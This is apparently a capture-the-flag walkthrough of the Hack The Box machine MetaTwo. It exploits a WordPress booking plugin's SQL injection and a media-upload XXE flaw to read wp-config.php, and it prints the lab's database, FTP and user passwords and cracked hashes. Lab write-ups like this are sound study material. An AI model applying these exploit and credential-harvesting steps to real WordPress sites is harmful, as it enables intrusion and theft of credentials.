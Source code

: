 # MetaTwo

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Following the [Wordpress section of hacktrics](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress) i found this page:

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

And obtain this response, showing that is vulnerable to some attacks when we have the credentials

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

There is also another direction: `/wp-admin/admin-ajax.php` that seems vulnerable due to the usage of the plugin `bookingpress`.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Lets test this exploit:&#x20;

{% embed url="https://github.com/destr4ct/CVE-2022-0739" %}

and obtain these credentials in Wordpress MD5 hash format

```
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```

Crack them with john and obtain the manager's credentials.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



There is a vulneravility in the wordpress version: CVE-2021-29447

{% embed url="https://tryhackme.com/room/wordpresscve202129447" %}

To exploit it we can upload a file and receive the information of diffent files. In order to obtain  more details, we need to know which files are important taking into account the services used.

The `wp-config.php` file contains important information but first we need to know where it is. Cause is running `nginx` let's get the nginx configuration:

* Nginx configuration: `/etc/nginx/sites-enabled/default`

and obtain this route: `root /var/www/metapress.htb/blog`

So lets cat the `/var/www/metapress.htb/blog/wp-config.php` file.

And from this file, we obaint this information:&#x20;

```
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```

ftp user and pass:       metapress.htb:9NYS\_ii@FyL\_p5M2NvJ



After loging in the ftp, there is a user and password in the `send_email.php.`

```
jnelson:Cb4_JmWM8zUZWMu@Ys
```

Listing the directories and services find `passpie` that stores root credentials and also a passpie's folder with the private pgp keys.&#x20;

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>



Transfer the .keys file and now lets decrypt it with john.

